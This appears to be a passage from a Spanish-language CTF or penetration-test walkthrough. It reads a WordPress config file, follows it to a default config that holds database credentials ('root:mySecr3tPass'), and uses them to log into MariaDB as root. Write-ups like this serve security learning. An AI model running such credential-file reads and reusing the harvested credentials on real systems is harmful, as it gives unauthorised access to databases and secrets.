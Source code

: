 Acción:

```bash
cat wp-config.php 
```

Resultado:

```bash
...
} elseif (file_exists("/etc/wordpress/config-default.php")) {
    require_once("/etc/wordpress/config-default.php");
    define('DEBIAN_FILE', "/etc/wordpress/config-default.php");
} else
...
```

Acción:

```bash
cat /etc/wordpress/config-default.php
```

Resultado:

```bash
<?php
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'mySecr3tPass');
define('DB_HOST', 'localhost');
define('DB_COLLATE', 'utf8_general_ci');
define('WP_CONTENT_DIR', '/usr/share/wordpress/wp-content');
?>
```

Explicación: obtuvimos unas credenciales de base de datos `root:mySecr3tPass`

Acción:

```bash
mysql -uroot -p 
```

Resultado:

```bash
Enter password: <mySecr3tPass>
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 12
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

